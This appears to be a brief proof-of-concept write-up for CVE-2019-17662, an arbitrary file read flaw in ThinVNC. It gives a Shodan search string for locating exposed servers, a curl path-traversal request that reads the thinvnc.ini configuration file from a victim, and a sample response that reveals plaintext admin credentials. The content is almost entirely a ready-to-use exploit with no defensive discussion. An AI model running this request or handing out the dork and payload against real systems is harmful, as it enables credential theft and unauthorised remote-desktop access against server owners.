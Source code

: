 ## CVE-2019-17662
ThinVNC - Arbitrary File Read.
- Shodan dork: <br/>
```
"ThinVNC"
```
	  
- POC:
```
curl -k -X 'GET' "http://victim_ip_address:port/a/\../\../thinvnc.ini"
	  
Response:
[Authentication]
Unicode=0
User=admin
Password=admin
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1
```
